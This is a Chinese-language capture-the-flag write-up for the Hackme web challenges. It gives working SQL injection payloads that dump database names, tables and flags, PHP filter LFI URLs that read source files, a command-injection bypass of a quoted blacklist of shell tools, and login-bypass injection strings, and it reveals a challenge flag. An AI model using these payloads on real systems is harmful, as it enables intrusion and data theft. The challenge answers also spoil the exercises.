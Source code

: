 [Hackme CTF](htts://hackme.inndy.tw)
===
參賽者：Will
## Web
### 0x01 hide and seek
#### https://hackme.inndy.tw/
看網站原始碼並尋找 `FLAG{` 
![](https://i.imgur.com/Vm6Xy2E.png)

### 0x02 guestbook
https://hackme.inndy.tw/gb/?mod=read&id=46
**Payload 1:** 取得資料庫名 g8
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(database()),4#`
**Payload 2:** 得到資料庫表名 flag
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='g8' limit 0,1),4#`
**Payload 3:** 得到資料庫列名 flag
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='flag' limit 1,1),4#`
**Payload 4:** 拿到該題 `flag`
`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select flag from flag limit 1,1),4#`

### 0x03 LFI
#### https://hackme.inndy.tw/lfi/?page=pages/index
**Payload 1:**
`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag`
base64 decode 後得到 flag.php
``` php
Can you read the flag<?php require('config.php'); ?>?
```
**Payload 2:**
`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config`
base64 decode 後得到 config.php
``` php
<?php

$flag = "FLAG{Yoooooo_LFI_g00d_2cXxsXSYP9EVLrIo}";
```

### 0x04 homepage
#### https://hackme.inndy.tw/
查看原始碼得知 [cute.js](https://hackme.inndy.tw/cute.js)
aaencode 解碼後得到 js 原始碼
在 Firefox Console 執行得到 QR Code 掃描後得到 flag
![](https://i.imgur.com/eHkN7wF.png)

### 0x05 ping
#### https://hackme.inndy.tw/ping/
有一串黑名單陣列, 發現 `sort` 沒防護到
``` php
$blacklist = [
            'flag', 'cat', 'nc', 'sh', 'cp', 'touch', 'mv', 'rm', 'ps', 'top', 'sleep', 'sed',
            'apt', 'yum', 'curl', 'wget', 'perl', 'python', 'zip', 'tar', 'php', 'ruby', 'kill',
            'passwd', 'shadow', 'root',
            'z',
            'dir', 'dd', 'df', 'du', 'free', 'tempfile', 'touch', 'tee', 'sha', 'x64', 'g',
            'xargs', 'PATH',
            '$0', 'proc',
            '/', '&', '|', '>', '<', ';', '"', '\'', '\\', "\n"
        ];
```
**Payload:**
`sort fl????hp`


### 0x06 scoreboard
#### https://hackme.inndy.tw/scoreboard/
**Payload:** X-Flag 就是 flag
`curl -I https://hackme.inndy.tw/scoreboard/`

### 0x07 login as admin 0
#### https://hackme.inndy.tw/login0/
過濾可以知道 `'` 會被取代成 `\\'`, 因此 `\'` 可以濾過
``` javascript
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```
**Payload 1:** 得到 guest
``` 
username = \' || 1#
password = 1
```
**Payload 2:** 得到 admin & flag
``` 
username = \' || 1 limit 1,1#
password = 1
```